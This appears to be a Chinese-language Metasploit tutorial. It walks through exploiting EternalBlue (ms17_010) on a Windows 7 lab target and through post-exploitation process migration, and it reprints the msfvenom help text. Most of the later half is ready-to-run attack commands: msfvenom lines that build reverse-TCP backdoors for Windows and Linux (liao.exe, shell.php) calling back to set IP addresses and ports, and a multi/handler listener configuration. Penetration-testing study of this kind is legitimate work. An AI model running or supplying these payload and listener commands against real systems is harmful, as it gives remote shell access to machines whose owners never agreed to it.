

# 1.基本Metasploit使用

## 使用方式

### 使用模块 - user [module name]

不知道模块具体名称可以使用`search`搜索

### 配置模块必选项 - set [option_name]

不知道具体选项可以使用`show option`

### 运行模块 - run

## 2.永恒之蓝复现

搜索ms17_010



要进行使用可以`use [module name]`或者use 前面的序号

使用`show options`查看需要配置的选项


配置完对应的选项之后run即可，关闭win7靶机的防火墙即可成功


这里的攻击载荷是`meterpreter`

也可以设置不同的攻击载荷

### 后渗透环节

可以使用help查看当前可以使用的命令


靶机使用的不是管理员用户，使用个人用户，但我们得到的权限是管理员用户，想要在个人用户下进行后渗透操作需要进行降权

查看当前的id，将进程注入到用户操作去


# 2.正篇

## 1.msfvenom生成木马后门

所有参数

```
┌──(root💀kali)-[~/桌面]
└─# msfvenom -h
MsfVenom - Metasploit 独立负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/usr/bin/msfvenom [options] <var=val>
示例：/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

选项：
-l, --list           <type>       列出 [type] 的所有模块。类型有：payloads、encoders、nops、platforms、archs、encrypt、formats、all
-p, --payload        <payload>    要使用的有效负载（--list 要列出的有效负载，--list-options 用于参数）。为自定义指定“-”或 STDIN
    --list-options                列出 --payload <value> 的标准、高级和规避选项
-f, --format         <format>     输出格式（使用 --list 格式列出）
-e, --encoder        <encoder>    要使用的编码器（使用 --list 编码器列出）
    --service-name   <value>      生成服务二进制文件时使用的服务名称
    --sec-name       <value>      生成大型 Windows 二进制文件时使用的新部分名称。默认值：随机 4 个字符的字母字符串
    --smallest                    使用所有可用的编码器生成尽可能小的有效载荷
    --encrypt        <value>      应用于 shellcode 的加密或编码类型（使用 --list encrypt 列出）
    --encrypt-key    <value>      用于 --encrypt 的密钥
    --encrypt-iv     <value>      --encrypt 的初始化向量
-a, --arch           <arch>       用于 --payload 和 --encoders 的架构（使用 --list archs 列出）
    --platform       <platform>   --payload 的平台（使用 --list 平台列出）
-o, --out            <path>       将有效负载保存到文件
-b, --bad-chars      <list>       避免使用的字符示例：'\x00\xff'
-n, --nopsled        <length>     将 [length] 大小的 nopsled 添加到有效负载上
    --pad-nops                    使用 -n <length> 指定的 nopsled 大小作为总负载大小，自动预先添加数量的 nopsled（nops 减去负载长度）
-s, --space          <length>     结果有效载荷的最大大小
    --encoder-space  <length>     编码负载的最大大小（默认为 -s 值）
-i, --iterations     <count>      设置有效载荷的编码次数
-c, --add-code       <path>       指定要包含的附加 win32 shellcode 文件
-x, --template       <path>       指定用作模板的自定义可执行文件
-k, --keep                        保留 --template 行为并将有效负载作为新线程注入
-v, --var-name       <value>      指定用于某些输出格式的自定义变量名称
-t, --timeout        <second>     从 STDIN 读取有效负载时等待的秒数（默认为 30，0 表示禁用）
-h, --help                        显示此消息 

```

windows可执行程序后门

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.204.149 lport=6688 -f exe -o liao.exe
```

Linux可执行后门

```
msfvenom -p linux/x64/reverse_tcp lhost=192.168.137.129 lport=443 R>shell.php
```

> -p 设置攻击载荷
>
> windows/x64/meterpreter/reverse_tcp 系统/架构/作用/方式 方式一般选择反向TCP连接，让目标连接本机
>
> lhost lport设置监听本地机器的ip和端口
>
> -f format
>
> -o output

使用模块开启监听

```
use exploit/multi/handler
```

设置pyload

```
set payload windows/x64/meterpreter/reverse_tcp
```

设置模块必选项 ip 端口

```
set lhost 192.168.137.147
set lport 6688
```

运行模块 

```
run
```

